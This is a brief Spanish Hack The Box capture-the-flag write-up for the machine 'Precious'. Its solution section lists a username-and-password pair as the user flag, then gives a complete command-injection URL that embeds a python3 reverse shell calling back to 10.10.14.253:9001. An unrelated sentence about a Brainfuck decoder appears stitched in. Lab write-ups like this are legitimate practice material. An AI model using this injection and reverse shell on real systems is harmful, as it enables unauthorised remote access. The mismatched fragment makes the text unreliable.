

# Hack The Box
    
  

  
  
## Máquina Precious

  

### Solución
    
    ``USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH"``
    
    
    ``REVERSE SHELL: http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
   
  La descripción del reto nos habla de "Brainfuck", así que lo llevamos a un decoder online.

**Autor:** [AlbertoMiñan](https://github.com/albertominan)
